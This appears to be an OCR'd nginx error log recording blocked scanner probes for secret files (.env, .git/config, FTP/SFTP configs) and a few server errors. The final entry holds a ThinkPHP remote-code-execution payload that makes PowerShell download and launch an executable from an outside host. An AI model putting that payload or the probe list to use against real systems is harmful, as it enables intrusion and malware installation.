 


2019/01/26 01:55:38 [error] 15009#0: *31947 access forbidden by rule, client: 185.153.198.217, server: 127.0.0.1, request: "GET //.git/config HTTP/1.1", host: "47.110.132.138"



2019/02/03 14:43:51 [error] 15009#0: *36492 access forbidden by rule, client: 71.6.146.185, server: 127.0.0.1, request: "GET /.well-known/security.txt HTTP/1.1", host: "47.110.132.138"


2019/03/20 18:11:24 [error] 15012#0: *106941 FastCGI sent in stderr: "Primary script unknown" while reading response header from upstream, client: 139.162.88.63, server: 127.0.0.1, request: "GET http://clientapi.ipip.net/echo.php?i     nfo=1234567890 HTTP/1.1", upstream: "fastcgi://unix:/tmp/php-fpm.sock:", host: "clientapi.ipip.net"




2019/03/21 01:34:59 [error] 15011#0: *107702 access forbidden by rule, client: 185.234.218.74, server: 127.0.0.1, request: "GET /.env HTTP/1.1", host: "47.110.132.138"
2019/03/21 01:35:00 [error] 15011#0: *107703 access forbidden by rule, client: 185.234.218.74, server: 127.0.0.1, request: "GET /.git/config HTTP/1.1", host: "47.110.132.138"
2019/03/21 02:10:25 [error] 15011#0: *107746 access forbidden by rule, client: 185.234.216.52, server: 127.0.0.1, request: "GET /.ftpconfig HTTP/1.1", host: "47.110.132.138"
2019/03/21 02:10:26 [error] 15011#0: *107747 access forbidden by rule, client: 185.234.216.52, server: 127.0.0.1, request: "GET /.remote-sync.json HTTP/1.1", host: "47.110.132.138"
2019/03/21 02:10:26 [error] 15011#0: *107748 access forbidden by rule, client: 185.234.216.52, server: 127.0.0.1, request: "GET /.vscode/ftp-sync.json HTTP/1.1", host: "47.110.132.138"
2019/03/21 02:10:27 [error] 15011#0: *107749 access forbidden by rule, client: 185.234.216.52, server: 127.0.0.1, request: "GET /.vscode/sftp.json HTTP/1.1", host: "47.110.132.138"
2019/03/27 22:44:52 [error] 15011#0: *130307 access forbidden by rule, client: 128.14.209.178, server: 127.0.0.1, request: "GET /.svn HTTP/1.1", host: "47.110.132.138"
2019/04/01 15:01:40 [error] 15010#0: *142657 access forbidden by rule, client: 54.222.139.196, server: 127.0.0.1, request: "GET /.well-known/pki-validation/fileauth.txt HTTP/1.1", host: "applet.dachagui.com"
2019/04/01 16:02:21 [error] 23032#0: *143041 access forbidden by rule, client: 203.119.196.16, server: applet.dachagui.com, request: "GET /. HTTP/1.1", host: "applet.dachagui.com"
2019/04/02 01:47:46 [error] 23468#0: *1588 access forbidden by rule, client: 123.59.195.133, server: applet.dachagui.com, request: "POST /.php HTTP/1.1", host: "47.110.132.138"
2019/04/14 06:56:10 [error] 1916#0: *42722 access forbidden by rule, client: 47.103.56.178, server: dcgcon.2tb.cn, request: "GET /admin/login/static/.gitignore HTTP/1.1", host: "dcgcon.2tb.cn"
2019/04/14 06:56:10 [error] 1916#0: *42722 access forbidden by rule, client: 47.103.56.178, server: dcgcon.2tb.cn, request: "GET /admin/login/static/.gitignore HTTP/1.1", host: "dcgcon.2tb.cn"




2019/04/01 15:35:12 [emerg] 23028#0: "fastcgi_pass" directive is duplicate in /data1/services/nginx/conf/nginx.conf:101


2019/04/03 13:28:57 [crit] 1917#0: *8016 SSL_do_handshake() failed (SSL: error:14094085:SSL routines:SSL3_READ_BYTES:ccs received early) while SSL handshaking, client: 52.81.58.186, server: 0.0.0.0:443



2019/06/10 07:08:55 [error] 4954#0: *226392 FastCGI sent in stderr: "Primary script unknown" while reading response header from upstream, client: 121.41.89.25, server: applet.dachagui.com, request: "GET /public/index.php?s=index/th     ink\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd.exe%20/c%20powershell%20(new-object%20System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/eccpqqosxkkjwjv24705     .exe');start%20%SystemRoot%/Temp/eccpqqosxkkjwjv24705.exe HTTP/1.1", upstream: "fastcgi://unix:/tmp/php-fpm.sock:", host: "47.110.132.138", referrer: "http://47.110.132.138:80/public/index.php?s=index/think\app/invokefunction&funct     ion=call_user_func_array&vars[0]=system&vars[1][]=cmd.exe /c powershell (new-object System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/eccpqqosxkkjwjv24705.exe');start %SystemRoot%/Temp/eccpq     qosxkkjwjv24705.exe"
